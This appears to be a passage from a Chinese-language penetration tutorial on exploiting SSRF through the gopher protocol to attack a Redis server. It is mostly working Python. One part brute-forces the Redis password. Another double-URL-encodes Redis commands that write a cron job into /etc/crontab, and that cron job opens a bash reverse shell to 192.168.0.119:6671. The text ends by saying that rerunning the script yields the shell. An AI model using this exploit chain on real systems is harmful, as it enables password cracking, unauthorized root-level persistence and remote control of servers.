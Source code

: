 ```python
    data = """auth %s
    quit
    """ % password
    # 二次编码
    encoder = encoder_url(encoder_url(data))
    # 生存payload
    payload = url + urllib.quote(gopher,'utf-8') + encoder

    # 发起请求
    request = urllib2.Request(payload)
    response = urllib2.urlopen(request).read()
    if response.count("+OK") > 1:
        print "find password : " + password
        mark = 1

if mark == 0 :print "not found"
```
所以，在已知密码的情况下可以将攻击的python代码中加入认证的语句，如下：
```
auth Margin
set mars "\\n* * * * * root bash -i >& /dev/tcp/192.168.0.119/6671  0>&1\\n"
config set dir /etc/
config set dbfilename crontab
save
```
python代码如下
```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-
import urllib2,urllib

url = "http://192.168.0.109/ssrf/base/curl_exec.php?url="
gopher = "gopher://192.168.0.119:6379/_"

# 攻击脚本
data = """auth Margin
set mars "\\n* * * * * root bash -i >& /dev/tcp/192.168.0.119/6671  0>&1\\n"
config set dir /etc/
config set dbfilename crontab
save
"""

def encoder_url(data):
    encoder = ""
    for single_char in data:
        # 先转为ASCII
        encoder += str(hex(ord(single_char)))
    encoder = encoder.replace("0x","%").replace("%a","%0d%0a")
    return encoder

# 二次编码
encoder = encoder_url(encoder_url(data))

# 生存payload
payload = url + urllib.quote(gopher,'utf-8') + encoder

# 发起请求
request = urllib2.Request(payload)
response = urllib2.urlopen(request).read()
```
再次运行python脚本，便可成功反弹shell。
